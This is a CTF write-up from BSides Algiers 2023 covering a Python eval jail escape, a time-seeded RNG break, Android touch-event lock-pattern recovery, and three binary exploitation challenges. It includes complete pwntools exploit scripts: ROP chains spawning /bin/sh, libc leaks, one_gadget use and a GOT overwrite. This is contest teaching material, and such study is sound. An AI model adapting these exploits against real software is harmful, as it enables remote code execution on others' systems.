

bsides algiers CTF 2023 writeups.
last weekend I took a part in the bsides algiers CTF 2023 organized by shellmates club, these are writeups for some of the challenges I solved:
Broken_Base64
no idea, used chatgpt ¯\(ツ)/¯
flag
shellmates{Y0u_h4V3_70_uNd3r5t4nD_H0w_B45364_w0Rk5}
Can you guess?
recon
we are given 2 python files, chall.py and jail.py:
chall.py
import multiprocessing as mp
from jail import guess
# This is for challenge setup only
if __name__ == '__main__':
print('Welcome to the game! I give you the possibility to execute whatever you want but I dare you to guess it right...')
inp = input('>> ')
guessed = mp.Value('b', False)
child_proc = mp.Process(target=guess, args=(inp,guessed,))
child_proc.start()
child_proc.join(timeout=3600)
if guessed.value == True:
with open('flag.txt') as f:
print(f.read())
else:
print("Told you, no flags will be given for you")
if child_proc.exitcode is None:
child_proc.terminate()
jail.py
def jail(inp):
return eval(inp)
def guess(inp, guessed):
import os, random
os.setregid(65534, 65534), os.setreuid(65534, 65534)
try:
r = jail(inp)
if random.random() == r:
print('That\'s right, but you ain\'t get any flags')
guessed.value = False
except Exception as e:
print("Don't break my jail")
basically what’s going on here is, chall.py is allocating a shared memory region called guessed, reads user input into inp and calls jail.guess() from jail.py, which calls jail(inp) and evaluates the user input, after that it checks if the result equals a random number chosen, if so it sets guessed.value to False.
notice that the only way to read the flag is if guessed.value == True, which is never the case, so we need to find a way to override it.
the call stack
at this point I started looking into ways to traverse the call stack frames, this way I can access the guess() frame (parent) from the jail() frame (where we’re currently at), and I came across the inspect module in python.
dirty python tricks
since we’re in an eval and not an exec, we can’t just import stuff the python way (import os), nor can we set attributes the usual way foo.bar = 5, we would have to use some tricks such as __import__('os') and setattr(foo, "bar", 5).
final exploit
setattr(__import__('inspect').getargvalues(__import__('inspect').currentframe().f_back.f_back).locals['guessed'], "value", True)
flag
shellmates{PYTHOn_FR4mE_0bj3cTs_ARENT_s3CuR3_ARE_Th3y}
SRNG
recon
we are given a single python script:
#!/usr/bin/env python
from flag import FLAG
import time
class Spooder:
def __init__(self):
self.rand, self.i = int(time.time()), 2
self.generate_random()
def generate_random(self, m: int = 0x10ffff) -> int:
self.rand = pow(self.i, self.rand, m)
self.i = self.i + 1
return self.rand
def generate_padding(self, l: int = 0x101) -> str:
padding = ''
for i in range(self.generate_random(l)):
padding += chr(self.generate_random(0xd7fb))
return padding
spooder = Spooder()
def spooder_encryption(message: str) -> str:
pad = spooder.generate_padding()
message = ''.join([chr(ord(c) ^ spooder.generate_random(0xd7fb)) for c in message])
cipher = pad + message
return cipher
if __name__ == '__main__':
welcome = f'''
▗▄▖ ▗▄▄▖ ▗▄ ▗▖ ▄▄
▗▛▀▜ ▐▛▀▜▌▐█ ▐▌ █▀▀▌
▐▙ ▐▌ ▐▌▐▛▌▐▌▐▌
▜█▙ ▐███ ▐▌█▐▌▐▌▗▄▖
▜▌▐▌▝█▖▐▌▐▟▌▐▌▝▜▌
▐▄▄▟▘▐▌ ▐▌▐▌ █▌ █▄▟▌
▀▀▘ ▝▘ ▝▀▝▘ ▀▘ ▀▀
\n
This is not the RNG the world wants, and it's not the RNG the world need, but this is the RNG that the world gets.
Welcome to the Spooder Random Number Generator, or special random number generator.
It can generate random numbers like this: {', '.join([str(spooder.generate_random()) for _ in range(spooder.generate_random(121))])}.
It can also generate random strings like this: {spooder.generate_padding(53)}.
You can also use it to encrypt secrets like this: {spooder_encryption(FLAG).encode().hex()}.
Here is a free trial:
1. Generate random string.
2. Generate random number.
3. Encrypt.
'''
print(welcome)
tries = spooder.generate_random(7)
print(f'You have {tries} tries .')
for _ in reversed(range(tries)):
choice = input('Choose wisely:\n\t> ')
if choice == '1':
print(spooder.generate_padding(11))
elif choice == '2':
print(spooder.generate_random(101))
elif choice == '3':
print(spooder_encryption(input('what do you want to encrypt?\n\t> ')))
else:
exit(0)
TL;DR:
the script gets the current time (time.time()) and uses it to generate “““random””” numbers which can easily be predicted.
final exploit
from pwn import *
import time
class Spooder:
def __init__(self):
self.rand, self.i = int(time.time()), 2
self.generate_random()
def generate_random(self, m: int = 0x10ffff) -> int:
self.rand = pow(self.i, self.rand, m)
self.i = self.i + 1
return self.rand
def generate_padding(self, l: int = 0x101) -> str:
padding = ''
for _ in range(self.generate_random(l)):
padding += chr(self.generate_random(0xd7fb))
return padding
s = Spooder()
def spooder_encryption(message: str) -> str:
pad = s.generate_padding()
message = ''.join([chr(ord(c) ^ s.generate_random(0xd7fb)) for c in message])
cipher = pad + message
return cipher
n = [str(s.generate_random()) for _ in range(s.generate_random(121))]
p = remote("srng.bsides.shellmates.club", 443, ssl=True)
p.recvuntil(b'this: ')
nums = p.recvline().decode().strip().split(', ')
assert len(nums) == len(n)
nums[-1] = nums[-1][:-1]
for a, b in zip(nums, n):
assert a == b
p.recvuntil(b'this: ')
s.generate_padding(53)
p.recvuntil(b'this: ')
pad = s.generate_padding()
bruh = bytes.fromhex(p.recvline().strip()[:-1].decode()).decode()
for c in bruh[len(pad):]:
print(chr(ord(c) ^ s.generate_random(0xd7fb)), end="")
flag
shellmates{5p00d3R_Fl4g_f0r_sPooDeR_cH4lL3nge}
lock pattern
recon
we are given 2 files, assignment.md which explains how we obtained the second file event2 and asked to recover the lock screen pattern
adb shell getevent | grep "touchscreen" -A 1
adb shell cat /dev/input/event2 > evtx
md5sum event2
#f241a508d5fccea7eb0f33a839a9633f
basically, we’re getting the content of the touchscreen input event from an android phone.
looking through documentation, we can see that event2 is a binary file with a list of structures describing events, each event follows the following structure:
struct input_event {
struct timeval time;
unsigned short type;
unsigned short code;
unsigned int value;
};
since we’re interested in the finger position on the screen we only want events with type EV_ABS (0x03) and codes ABS_MT_POSITION_X (0x35) and ABS_MT_POSITION_Y (0x36).
at this point it’s trivial to parse the event2 file, extract the (x, y) positions and plot them to get the lock.
final exploit
from pwn import *
import numpy as np
import matplotlib.pyplot as plt
from matplotlib.animation import FuncAnimation
import struct
f = open("./event2", "rb")
coords = []
saved_x = 0
saved_y = 0
while True:
try:
time = f.read(4)
f.read(4)
ty = struct.unpack('<H', f.read(2))[0]
code = struct.unpack('<H', f.read(2))[0]
value = struct.unpack('<I', f.read(4))[0]
if ty == 3:
if code == 0x35:
saved_x = value
coords.append((saved_x, saved_y))
elif code == 0x36:
saved_y = -value
coords.append((saved_x, saved_y))
except Exception:
break
fig, ax = plt.subplots()
ax.set_xlim(0, 2000)
ax.set_ylim(-2000, 0)
point, = ax.plot([], [], 'ro')
line, = ax.plot([], [], 'ro')
def update(frame):
x, y = coords[frame]
point.set_data([x], [y])
xdata, ydata = line.get_data()
xdata = np.append(xdata, x)
ydata = np.append(ydata, y)
line.set_data(xdata, ydata)
return point,
ani = FuncAnimation(fig, update, frames=len(coords), interval=1, blit=True)
plt.show()
flag

shellmates{457198632}
unaligned
recon
we’re given an ELF binary unaligned, it gives you a libc leak (address of system()) and reads input overflowing the stack buffer, stack canary is disabled which means we can redirect code execution, classic ret2libc.
alignment
our overflow is only 24 bytes, at first glance this might seem enough for an exploit such as:
python
payload = b'A'*40 + p64(POP_RDI) + p64(BIN_SH) + p64(system)
but this will fail due to stack alignment, since the stack is no longer 16-bytes aligned.
the usual way we’d go about this is to prepend the ROP chain with a ret gadget, but since we don’t have enough space for that we’ll have to find another way.
libc gadgets
using one_gadget on the provided glibc, we can find the following gadget:
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
rsp & 0xf == 0
rcx == NULL
the only requirement here is that rcx == NULL (since the first constraints is already satisfied), so we can just set rcx to NULL and jump to the gadget, and this will fit within our 24 bytes overflow
final exploit
from pwn import *
context.binary = elf = ELF("./unaligned")
libc = ELF("./libc.so.6")
# p = elf.process()
p = remote("unaligned.bsides.shellmates.club", 443, ssl=True)
assert p
system = int(p.recvline().strip().decode().split(' ')[1], 16)
log.info(f"system@{hex(system)}")
libc.address = system - libc.symbols['system']
log.info(f"libc@{hex(libc.address)}")
r = ROP(libc)
POP_RCX = r.find_gadget(["pop rcx", "ret"]).address
RET = r.find_gadget(["ret"]).address
payload = b'A'*40
payload += p64(POP_RCX) + p64(0) + p64(libc.address + 0x4f2a5)
p.sendlineafter(b'Name:', payload)
p.interactive()
flag
shellmates{SOrRY_fOR_f0RciBLy_Un$4tify1ng_0ne_g4DGet_CoN$tr41nT$}
SYS_ROP
recon
we are given an ELF executable chall which has all mitigations disabled and is not linked against libc.
when examining it we notice that we have a stack buffer overflow, meaning we can ROP (who would’ve guessed?).
we can find the following gadgets:
0x0000000000401085: pop rax; ret;
0x000000000040107f: pop rdi; ret;
0x0000000000401083: pop rdx; ret;
0x0000000000401081: pop rsi; ret;
0x000000000040100a: syscall;
we can call arbitrary syscalls.
exploit plan
since we don’t have libc, we will have to call execve("/bin/sh", {"/bin/sh", NULL}, NULL).
final exploit
from pwn import *
context.binary = elf = ELF("./chall")
p = remote("sys-rop.bsides.shellmates.club", 443, ssl=True)
assert p
rw = 0x402010
POP_RAX = 0x401085
POP_RDI = 0x40107f
POP_RSI = 0x401081
POP_RDX = 0x401083
SYSCALL = 0x401011
payload = b'A'*88
payload += p64(POP_RAX) + p64(0)
payload += p64(POP_RDI) + p64(0)
payload += p64(POP_RSI) + p64(rw)
payload += p64(POP_RDX) + p64(32)
payload += p64(SYSCALL)
payload += p64(POP_RAX) + p64(0x3b)
payload += p64(POP_RDI) + p64(rw)
payload += p64(POP_RSI) + p64(rw+16)
payload += p64(POP_RDX) + p64(0)
payload += p64(SYSCALL)
p.sendlineafter(b'message:', payload)
part2 = b'/bin/sh\0'
part2 += p64(0)
part2 += p64(rw)
part2 += p64(0)
p.sendline(part2)
p.interactive()
flag
shellmates{yOu_4rE_a_true_H4CkeR}
junior pwner
I’m getting too lazy to write so here’s the rough idea:
- you can overflow a stack buffer and override the saved
rbp - use that overflow to override the
messagesarray and use it to leak alibcaddress - use the overflow again to write
/bin/shto themessagesarray - override the
puts@GOTentry with the address ofsystem() - now next time
putsgets called we callsystem()instead, and since we overwritten all messages with/bin/sh, we guarantee that we pass/bin/shas the first argument.
final exploit
from pwn import *
context.binary = elf = ELF("./chall")
libc = ELF("./libc.so.6")
# p = elf.process()
p = remote("junior-pwner.bsides.shellmates.club", 443, ssl=True)
assert p
p.recvline()
pay1 = p64(elf.got['puts'])*3
pay1 += b'A'*(64-len(pay1))
pay1 += p64(0x4041c0 + 0x50)
gdb.attach(p)
p.sendline(pay1)
n = u64(p.recvline().strip().ljust(8, b'\0'))
libc.address = n - libc.symbols['puts']
log.info(f"libc@{hex(libc.address)}")
p.recv()
BINSH = next(libc.search(b'/bin/sh\0'))
log.info(f"/bin/sh @ {hex(BINSH)}")
pay2 = p64(BINSH)*3
pay2 += b'A'*(64-len(pay2))
pay2 += p64(0x4041c0 + 0x50)
p.sendline(pay2)
p.recv()
pay3 = p64(libc.symbols['system'])
pay3 += p64(libc.symbols['setbuf'])
pay3 += p64(libc.symbols['read'])
pay3 += p64(libc.symbols['srand'])
pay3 += p64(libc.symbols['memcpy'])
pay3 += p64(libc.symbols['time'])
pay3 += p64(libc.symbols['malloc'])
pay3 += p64(libc.symbols['rand'])
pay3 += b'A'*(64-len(pay3))
pay3 += p64(elf.got['puts'] + 0x50)
p.sendline(pay3)
p.interactive()
flag
shellmates{Never_trUst_aSlR_eV3N_jUn1Or$_C0ULd_BRE4K_It!}